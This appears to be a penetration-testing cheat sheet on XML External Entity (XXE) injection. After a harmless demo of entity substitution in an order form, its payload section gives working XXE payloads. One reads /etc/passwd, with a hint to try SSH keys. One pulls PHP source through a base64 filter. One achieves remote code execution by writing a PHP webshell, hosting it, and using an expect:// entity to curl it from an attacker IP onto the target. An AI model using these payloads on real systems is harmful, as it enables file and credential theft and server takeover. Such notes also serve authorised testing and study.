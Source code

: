 XXE = XML External Entity
## Overview
On webpages, sometimes during a POST we can input information that utilizes XML
Example Form
```
<?xml version = "1.0"?>
	<order>
		<quantity>
	        4
		</quantity>
		<item>
			banana
		</item>
	</order>
```

We can abuse these forms using XXEs
General syntax
```
<!DOCTYPE var1 [
<!ENTITY var2 "some random text here">
]>
```

Example of XXE attack
```
<?xml version = "1.0"?>
	<!DOCTYPE foo [
	<!ENTITY example "get pwned xD">
	]>
	<order>
		<quantity>
	        4
		</quantity>
		<item>
			&example;
		</item>
	</order>
```
when we POST this, instead of printing "banana", it will print "get pwned xD"


## Payloads
NOTE: DO NOT FORGET TARGETS CAN ALSO BE WINDOWS

Reading Sensitive Files
```
<!DOCTYPE var1 [
<!ENTITY var2 SYSTEM 'file:///etc/passwd'>
]>
```
This is an example... consider ssh keys as well, just like you would an LFI

Reading Source Code
```
<!DOCTYPE var1 [
<!ENTITY var2 SYSTEM 'php://filter/convert.base64-encode/resource=<file>.php'>
]>
```

RCE
```
# Create webshell php file and host it
	echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
	python3 -m http.server 80

<!DOCTYPE var1 [
<!ENTITY var2 SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
```